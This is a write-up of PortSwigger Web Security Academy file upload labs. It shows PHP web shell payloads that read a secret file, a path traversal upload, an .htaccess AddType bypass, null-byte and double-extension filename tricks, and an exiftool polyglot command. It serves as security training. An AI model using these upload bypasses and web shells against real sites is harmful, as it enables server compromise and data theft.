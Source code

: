 ```yaml
---
description: >-
  https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities
---
```


# 📑 File Upload vulnerabilities

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

We already did some File uploads in the&#x20;

{% content-ref url="server-side-vulnerabilities.md" %}
[server-side-vulnerabilities.md](server-side-vulnerabilities.md)
{% endcontent-ref %}

### Lab: Web shell upload via path traversal

We start by uploading our php payload and capturing the request:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We saw that we were able to upload the PHP file, but it was as a txt file, the folder must filter out the PHP files, so let's save the PHP file in another directory. If we do a filename ../webshell.php it cuts the ../ but if we encode it to ..%2fwebshell.php it seems to work:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see when encoding it saves the shell in another directory ->

so i took te req and forwarded it, on the page it showed:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now we go back on repeater, and we get the file:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Lab: Web shell upload via extension blacklist bypass

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This payload will enable us to read the content of the secret file, now let's upload our picture and the request ->

<figure><img src="../../.gitbook/assets/image (845).png" alt=""><figcaption></figcaption></figure>

and with the following request we are able to GET our image:

```
GET /files/avatars/image.png
```

if we try to run a php payload ->

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

and if we look at the pretty output:

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

We can see on this website that .htaccess files are not very secure:

{% embed url="https://httpd.apache.org/docs/2.4/howto/htaccess.html" %}

So we are going to rename the file .htaccess and change the content:

<figure><img src="../../.gitbook/assets/image (848).png" alt=""><figcaption></figcaption></figure>

```
AddType application/x-httpd-php .shell
```

* `AddType`: This is an Apache directive used to specify how files with certain extensions should be handled by the server.
* `application/x-httpd-php`: This indicates the MIME type of the files. In this case, it specifies that the files are PHP scripts.
* `.shell`: This is the file extension that the directive applies to. In this case, it's `.shell`, meaning any file with this extension will be treated as a PHP script.

And now we take the query back in time and make our malicious file:

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

#### Other techniques to bypass file extension blacklist:

* Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
* Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
* Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
*   you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename:

    `exploit.p.phphp`

### Lab: Web shell upload via obfuscated file extension

So for the chal we can easily guess it's one of those, and indeed it was:

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption><p>FP.php%00.jpg</p></figcaption></figure>

And we can now make a GET to the file:

<figure><img src="../../.gitbook/assets/image (851).png" alt=""><figcaption></figcaption></figure>

#### Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

{% embed url="https://exiftool.org/" %}

### Lab: Remote code execution via polyglot web shell upload

We need to create a malicious php file with a JPG header

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

* `exiftool`: This is the command-line utility we're using.
* `-Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>"`: This part sets the comment metadata of the image file to a PHP code snippet. It appears to be intended to embed PHP code into the metadata of the image. The PHP code retrieves the contents of a file located at `/home/carlos/secret` and appends 'START ' before the content and ' END' after the content.
* `<YOUR-INPUT-IMAGE>.jpg`: This is where you would specify the input image file. Replace `<YOUR-INPUT-IMAGE>.jpg` with the path to your actual image file. The `.jpg` extension suggests that the input image file is in JPEG format.
* `-o polyglot.php`: This part specifies the output file name. It instructs ExifTool to save the modified image with the PHP code embedded in its metadata into a file named `polyglot.php`.

We upload the file and if we&#x20;

`GET /files/avatars/polyglot.php`

We can have the password

#### Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

